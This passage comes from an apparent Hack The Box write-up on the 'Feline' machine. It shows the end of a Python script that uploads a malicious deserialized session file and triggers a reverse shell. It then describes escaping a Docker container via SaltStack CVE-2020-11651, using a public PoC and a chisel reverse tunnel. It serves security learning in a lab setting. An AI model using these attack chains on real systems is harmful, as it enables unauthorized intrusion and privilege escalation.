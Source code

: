 ```py
    lport = args.lport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Download the yosoerial
    downloadPayGen()
    # Create the malicious session file
    createBin(lhost,lport)
    #Upload Malicious session
    maliciousUpload(rhost)
    # Get the reverse
    triggerPayload(rhost)

if __name__ == '__main__':
    main()
```

Ok, let's continue our exploration on this box

# Bypass Container

We see that we are on a container on this box, because it has the interface docker0

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:05:48.png)

We see some ports running locally on 4505 and 4506, they are associated to a service called [SaltStack](https://www.saltstack.com)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:07:09.png)

## CVE-2020-11651

After googling about it, we found the vulnerability on saltstak which leads to unathenticated privileve escalation, and we got this [PoC](https://github.com/jasperla/CVE-2020-11651-poc)

For this works we must use [chisel](https://github.com/jpillora/chisel) to make a proxy between our kali and the feline docker box

We transfer it to the Feline box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:36:13.png)

Starter the server in my kali

```sh
./chisel server -p 8000 --reverse
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:37:14.png)

So, the client and the server receive the connection back
